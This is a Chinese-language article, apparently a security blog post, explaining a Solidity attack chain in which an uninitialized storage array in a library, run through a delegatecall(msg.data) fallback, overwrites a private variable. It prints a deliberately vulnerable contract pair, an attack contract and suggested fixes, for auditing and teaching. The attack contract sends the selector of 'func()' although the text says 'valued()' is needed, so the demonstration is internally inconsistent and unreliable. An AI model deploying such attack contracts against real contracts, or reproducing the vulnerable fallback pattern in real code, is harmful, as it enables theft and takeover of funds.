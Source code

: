 ```yaml
---
title: dataLocation和delegatecall攻击链

author: bobby

---
```

# dataLocation和delegatecall攻击链思考

# 前言

以太坊的智能合约主要使用solidity语言进行开发，在近几年的安全漏洞曝光中，智能合约爆出了大量的安全漏洞。其中有一个漏洞是parity钱包的安全漏洞，漏洞的原因是在回滚函数（fallback）函数里面通过底层调用函数delegatecall函数调用了Lib库里面的函数改变了权限。当然，前提是delegatecall函数的入参可以被调用中控制，例如delegatecall(msg.data)这样的方式。

最近在研究solidity的data location这个知识点，基本上算是分析清楚了solidity的数据存储机制。突然想到有一种攻击方式完全可以利用solidity的数据存储机制和底层调用机制来达到一些修改特殊变量的目的。

当然对于这两个solidity的特性还不熟悉的，可以参考[http://solidity.readthedocs.io/en/v0.4.24/](http://solidity.readthedocs.io/en/v0.4.24/)。

也可以参考下面两个文章：

[以太坊智能合约数据存储.md](./以太坊智能合约数据存储.md)  
[智能合约常见安全漏洞及修复方案.md](./智能合约常见安全漏洞及修复方案.md)

这两篇文章里面分别有对于solidity的数据存储机制和底层调用机制的详细介绍。

# 攻击链分析

好了，我们现在可以来详细的分析这种方式，有如下一段代码：

```

pragma solidity ^0.4.24;

contract Lib {
    
    function valued() public{
        uint256[2] z;
        z[0] = 100;
        z[1] = 200;
    }
    /*
    
    do something
    
    */
    function show(bytes32[] arr){}
}


contract Demo {
    
    uint256 private a=10;
    
    Lib lib;
    
    constructor (address _add){
        lib=Lib(_add);
    }
    
    function (){
        
        // lib.delegatecall(bytes4(keccak256("valued()")));
        lib.delegatecall(msg.data);
    }
    
    function getA() returns(uint256){
        return a;
    }
}


```


上面代码所示，有一个智能合约的Lib库，这个库提供了一些函数供调用，这里为了演示就只写了一个函数valued供其待会演示。

另外一个智能合约通过构造函数引入Lib的地址，然后在fallback函数里面通过底层调用delegatecall的方式来调用Lib里面的函数到本合约里面执行，这里delegatecall的入参数msg.data。

当然Demo里面有一个private 类型的状态变量a值为10。说明这个变量a只能在本智能合约里面使用并且其他合约也是修改不a值的（这个是理论上，如果有其他漏洞一样可以修改。）我们初步看Lib和Demo两个合约的代码，都是没问题的。但是我们仔细看，delegatecall函数的入参为msg.data，说明这里入参是可以被控制的。

那么会想一下，回滚函数怎么才能够被触发的呢。1、通过底层调用Demo一个不存在的函数。2、给Demo直接转以太币，前提是回滚函数是带有payable的关键字。好了，说到这里大家可能已经猜到，我们可以通过底层调用的方式调用Demo一个不存在的函数，同时携带msg.data为bytes4(keccak256("valued()"))的值，这样就会触发回滚函数，然后通过delegatecall调用Lib里面的valued函数到Demo合约里面执行。

因此我们的攻击代码可以这样写：

```

contract Attack{
    Demo d;
    
    constructor(address _add){
        d=Demo(_add);
    }
    
    function att() public{
        d.call(bytes4(keccak256("func()")));
    }
}

```

我们在部署好几个合约以后，通过执行合约Attack里面的att函数，将会把Demo合约里面的私有状态变量a的值改为100。

演示这里暂时就不演示了，大家可以把几个合约部署在remix上面演示看看效果。

# 修复方案

- 可以修改LIb库里面的函数的局部变量uint256[2] z;为uint256[2] memory z;
- 检查delegatecall的入参。


# 后记

对于这种攻击链的方式，主要还是参考了solidity的数据存储机制和底层调用机制来触法的。当然，在实际的攻击中还是需要具体问题具体分析，这里只是提供了一种攻击思路或者说说源代码审计思路。
















